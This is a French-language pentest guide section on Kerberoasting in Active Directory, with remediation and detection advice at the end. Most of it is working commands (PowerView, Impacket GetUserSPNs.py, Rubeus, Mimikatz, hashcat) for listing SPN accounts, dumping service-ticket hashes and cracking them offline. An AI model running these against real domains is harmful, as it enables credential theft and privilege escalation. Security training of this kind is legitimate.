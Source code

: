 # V.B. Kerberoasting

Le Kerberoasting est une technique d'attaque post-exploitation qui cible les comptes de service Active Directory. Si un compte de service a un Service Principal Name (SPN) enregistré et utilise Kerberos pour l'authentification, un utilisateur du domaine (même avec peu de privilèges) peut demander un ticket de service Kerberos (TGS) pour ce service. La partie chiffrée de ce TGS est chiffrée avec le hash NTLM du compte de service. Ce ticket peut être extrait et son hash craqué hors ligne.

Si le mot de passe du compte de service est faible, il peut être retrouvé, compromettant potentiellement le service et les systèmes auxquels il a accès.

## 1. Identification des Comptes Kerberoastables

*   **Objectif :** Trouver les comptes utilisateurs (pas les comptes machines) qui ont des SPNs configurés.
*   **Outils et Commandes :**

    *   **PowerView (Windows) :**
        ```powershell
        # Lister tous les SPNs pour les comptes utilisateurs
        Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname, memberof, description, pwdlastset, lastlogon
        # Plus ciblé, excluant les comptes désactivés et les comptes machines (qui ont souvent des SPNs mais sont moins intéressants pour le kerberoasting classique)
        Get-DomainUser -SPN -Properties samaccountname, serviceprincipalname, memberof, description, pwdlastset, lastlogon | Where-Object {$_.Enabled -eq $True -and $_.samaccountname -notlike "*-*" -and $_.samaccountname -notlike "*$"}
        ```

    *   **Module ActiveDirectory PowerShell :**
        ```powershell
        Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName, MemberOf, Description, SamAccountName, Enabled, PwdLastSet, LastLogonTimestamp | Where-Object {$_.Enabled -eq $True} | Select-Object SamAccountName, ServicePrincipalName, @{N="LastLogon"; E={[datetime]::FromFileTime($_.LastLogonTimestamp)}}, @{N="PwdLastSet";E={[datetime]::FromFileTime($_.PwdLastSet)}}, Description, MemberOf
        ```

    *   **GetUserSPNs.py (Impacket - Linux) :**
        ```bash
        # Depuis une machine Linux avec des identifiants valides
        GetUserSPNs.py -request -dc-ip <IP_DC> <DOMAINE.LOCAL>/<utilisateur>:<mot_de_passe>
        # Pour sauvegarder les hashes au format Hashcat
        GetUserSPNs.py -request -dc-ip <IP_DC> <DOMAINE.LOCAL>/<utilisateur>:<mot_de_passe> -outputfile kerberoast_hashes.txt
        # Avec un hash NTLM au lieu d'un mot de passe
        GetUserSPNs.py -request -dc-ip <IP_DC> <DOMAINE.LOCAL>/<utilisateur> -hashes <LM_HASH>:<NT_HASH> -outputfile kerberoast_hashes.txt
        ```

    *   **Rubeus (Windows) :**
        ```powershell
        # Lister et demander les TGS pour les comptes kerberoastables
        Rubeus.exe kerberoast /outfile:kerberoast_hashes_rubeus.txt /format:hashcat
        # Pour un utilisateur spécifique
        Rubeus.exe kerberoast /user:<NOM_COMPTE_SERVICE> /outfile:single_kerb_hash.txt /format:hashcat
        # Si vous avez déjà une liste de SPNs
        # Rubeus.exe kerberoast /spn:"HTTP/webserver.domaine.local" /outfile:spn_hash.txt
        ```

## 2. Extraction des Tickets de Service (TGS)

Les outils ci-dessus (GetUserSPNs.py, Rubeus) effectuent généralement l'identification et l'extraction en une seule étape. Si vous utilisez des méthodes manuelles ou d'autres outils, le processus implique :
1.  Identifier le SPN.
2.  Demander un TGS pour ce SPN au KDC (Contrôleur de Domaine).
3.  Extraire le ticket de la mémoire ou du trafic réseau.

*   **Mimikatz (pour extraire les tickets en mémoire, si vous avez déjà un TGS pour le service) :**
    ```
    privilege::debug
    sekurlsa::tickets /export
    # Chercher les tickets correspondant aux SPNs identifiés.
    ```
    Note : Mimikatz est plus souvent utilisé pour extraire des TGTs ou des tickets déjà présents. Pour le kerberoasting, Rubeus ou GetUserSPNs sont plus directs.

## 3. Craquage des Hashes Kerberos (TGS)

Les hashes extraits sont généralement de type KRB5TGS (mode Hashcat 13100).

*   **Hashcat :**
    ```bash
    # hashcat -m 13100 <fichier_hashes_kerberoast> <liste_de_mots_de_passe>
    hashcat -m 13100 kerberoast_hashes.txt rockyou.txt
    hashcat -m 13100 kerberoast_hashes.txt rockyou.txt -O # Optimisation
    ```
*   **John the Ripper :**
    ```bash
    # john --format=krb5tgs --wordlist=rockyou.txt kerberoast_hashes.txt
    ```

## Impact et Remédiation

*   **Impact :**
    *   Compromission de comptes de service.
    *   Accès aux applications et systèmes gérés par ces comptes (bases de données, applications web, tâches planifiées, etc.).
    *   Potentielle élévation de privilèges si le compte de service a des droits élevés.
*   **Remédiation :**
    *   **Mots de passe forts et uniques :** Utiliser des mots de passe longs (25+ caractères), complexes et uniques pour les comptes de service.
    *   **Comptes de Service Managés (MSA/gMSA) :** Préférer les Group Managed Service Accounts (gMSA) ou Managed Service Accounts (MSA) lorsque possible. Windows gère automatiquement leurs mots de passe, les rendant très longs et complexes, et les change régulièrement. Ils ne peuvent pas être utilisés pour des connexions interactives.
    *   **Principe de moindre privilège :** Accorder aux comptes de service uniquement les permissions nécessaires à leur fonctionnement.
    *   **Surveillance :** Surveiller les demandes de TGS inhabituelles ou excessives (peut indiquer une tentative de kerberoasting). Les événements Kerberos 4769 sur les DCs peuvent être analysés.
    *   **Limiter l'utilisation de comptes utilisateurs standards comme comptes de service.**

Le Kerberoasting est une attaque discrète car elle n'implique pas d'interaction directe avec le service cible, seulement avec le KDC. 